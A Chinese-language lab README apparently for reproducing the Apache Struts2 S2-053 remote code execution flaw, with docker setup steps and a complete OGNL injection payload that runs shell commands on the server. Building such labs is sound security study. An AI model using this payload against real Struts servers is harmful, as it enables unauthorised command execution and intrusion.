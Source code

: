 # S2-053 远程代码执行漏洞

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 测试环境搭建

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。
